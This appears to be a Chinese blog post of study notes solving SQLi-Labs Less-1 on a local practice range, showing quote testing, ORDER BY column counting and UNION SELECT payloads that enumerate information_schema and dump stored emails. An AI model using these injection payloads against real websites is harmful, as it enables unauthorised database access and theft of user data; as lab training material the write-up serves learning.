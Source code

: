 +++
date = "2019-08-20T15:56:26+08:00"
menu = "main"
categories = ["渗透学习笔记"]
tags = ["Sql-Lib靶场通关"]

banner = "banners/sqlmap_bg2.jpg"
title = "Sql-Lib第一关"
description = "Union注入"
images = []

+++

- 漏洞类型：GET型 - 基于报错 - 单引号 - 字符型注入
- 目标网址（本地靶场）：http://www.sqllib.com/less-1/?id=
- 目标：获取网站用户的邮箱

---

# ① 访问网址，测试是否存在SQL注入

## 正常访问

> http://www.sqllib.com/less-1/?id=1

**目前页面上在有两处显示信息**

- Your Login name：Dumb
- Your Password：Dumb

![正常访问](https://shop.io.mi-img.com/app/shop/img?id=shop_a26a65b1a5f6c9c9e58bea52a6ef23a9.jpeg)




## 异常测试

> ① http://www.sqllib.com/less-1/?id=1'
>
> ② http://www.sqllib.com/less-1/?id=1' and '1
>
> ... ...

![单引号测试](https://shop.io.mi-img.com/app/shop/img?id=shop_c3a9aef6acd3d846103f6df100f2d83f.jpeg)

![布尔测试](https://shop.io.mi-img.com/app/shop/img?id=shop_1e3aa4d02d04dc6958d5b75d0b2ad100.jpeg)

## 报错信息

**报错信息中，没有对我输入的单引号进行转义，传入的 id 参数有可能是字符型，后面注入时要尝试闭合单引号**

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1'



# ② 查询当前网页，使用的表名，包含的字段数量

## 输入 order by 1~99，直到页面显示异常

```
order by 3--+
```

![猜解字段数量](https://shop.io.mi-img.com/app/shop/img?id=shop_107592566ce5f543eaf8baf69c1a1c83.jpeg)

```
order by 4--+
```

![猜解字段数量_2](https://shop.io.mi-img.com/app/shop/img?id=shop_3cc11285380a40d3248f77d5f96906b2.jpeg)



# ③ 判断查询的信息，在页面显示的位置

```
union select 1,2,3
```

![判断信息回显位置](https://shop.io.mi-img.com/app/shop/img?id=shop_13dc1b06bf1362d4b74180b221c43ea3.jpeg)

#### **如图，最终确认，2，3是信息回显的位置，后面的语句中，"1" 最好替换为 "null"**<br>

#### **避免数据库出现异常。**


# ④ 查询数据库名、表名

```
union select null,database(),version()--+
```

![查询数据库、以及版本](https://shop.io.mi-img.com/app/shop/img?id=shop_30a9b12ff751baa6b8b5783c81524727.jpeg)



```
union select null,table_schema,table_name from information_schema.tables where table_schema='security' limit 0,1--+
```

![查询库中包含的表名](https://shop.io.mi-img.com/app/shop/img?id=shop_1ac99de1700468225c1e263a91fe3bc4.jpeg)

## **改变 limit m, n** 中的 m, 从表中一行行查询 0~99

![查询到users表](https://shop.io.mi-img.com/app/shop/img?id=shop_ef02ae9ffeb0aec4f05198a68b4b0d8d.jpeg)

# ⑤ 查询 "security" 库中的 "emails" 表所包含的字段名

```
union select null,table_name,column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1--+
```

![第一个字段](https://shop.io.mi-img.com/app/shop/img?id=shop_0fdca406df650b8055ffa6881da1e01f.jpeg)

![第二个字段](https://shop.io.mi-img.com/app/shop/img?id=shop_c262c1a882641a41430113d306dce9ed.jpeg)

# ⑥ 获取用户邮箱信息

```
union select null,id,email_id from security.emails limit 0,1--+
```

![查询用户邮箱](https://shop.io.mi-img.com/app/shop/img?id=shop_320a64aeb53beb4d897a85b35bf38ab5.jpeg)

![查询用户2](https://shop.io.mi-img.com/app/shop/img?id=shop_6ee464d11e87288a2f29dd7922fdd9fd.jpeg)

## 用户邮箱

- Dumb@dhakkan.com
- Angel@ilovenu.com

## 总结

首先，要判断出从 id 传入的参数，是字符串，还是数字(int)型

- 字符型要用 ' ，"，--+，#等注释，闭合单引号，或者注释对查询无用的 MySql 语句

  

```
id=' union select ... --+'
```

- 数字型可以用 "-" 符号，布尔表达式

  
```
id=-1 union select ...
id=1 and 1=2 union select ...
```

然后，通过常见的报错信息，可以大致判断注入的类型（看运气，实战大多盲注）

最后，手工输入需要耐心和细心，有时候注入的语句没有效果

很有可能是手误敲错字母，漏掉了单引号之类的... ...

有不足和错误之处，欢迎留言讨论~